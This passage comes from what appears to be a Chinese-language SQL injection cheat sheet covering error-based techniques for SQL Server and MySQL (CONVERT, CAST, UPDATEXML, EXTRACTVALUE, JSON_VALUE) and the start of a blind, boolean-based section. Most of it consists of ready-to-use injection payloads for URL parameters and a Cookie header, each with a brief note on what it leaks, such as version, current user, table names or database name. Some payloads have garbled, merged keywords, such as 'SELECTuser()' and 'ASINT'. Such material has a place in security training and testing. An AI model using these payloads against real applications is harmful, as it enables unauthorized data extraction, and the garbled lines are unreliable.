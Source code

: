 
```
?id=1' AND 1=CONVERT(int,(SELECT @@version))--
```

  
  
SELECT @@version触发类型转换错误，并在错误消息中包含结果。有助于识别数据库引擎和版本。  
  

```
?id=1' AND 1=CAST((SELECTuser()) ASINT)--
```

  
  
对于支持 的系统CAST，这会强制出现转换错误，从而显示当前数据库用户。  
  
6.2 算术和函数错误  
  

```
?id=1' AND (SELECT TOP 1nameFROM sysobjects) LIKE'%user%' / 0--
```

  
  
当第一个表名包含“user”时，除以零，如果为真则导致错误。此有效负载将算术与元数据查询结合在一起。  
  

```
?id=1' AND JSON_VALUE((SELECTCONCAT('{&#34;u&#34;:&#34;', user(), '&#34;}')), '$.u') ISNULL--
```

  
  
在 SQL Server 2016+ 上，JSON_VALUE如果 JSON 格式不正确，则会生成错误，从而泄露 user() 值。  
  
6.3 基于 XML 的错误（MySQL）  
  

```
?id=1' AND UPDATEXML(1, CONCAT(0x7e, (SELECTuser())), 1)--
```

  
  
无效updatexml调用会引发包含用户名的 XML 解析错误。十六进制0x7e( ~) 作为前缀，以便于解析。  
  

```
?id=1' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECTdatabase())))--
```

  
  
类似于UPDATEXML，EXTRACTVALUE嵌入当前数据库名称会触发错误。  
  
7. 盲 SQL 注入  
  
盲 SQLi 依赖于推理而非直接输出。以下是针对布尔值和基于时间的变体的额外负载：  
  
7.1 基于布尔值（条件响应）  
  
当没有返回任何数据或错误时，逐位提取数据。以下是多个有效载荷及其说明：  
  
有效载荷示例1：  
  

```
Cookie: TrackingId=xyz' AND (SELECTCOUNT(*) FROMusers)--
```
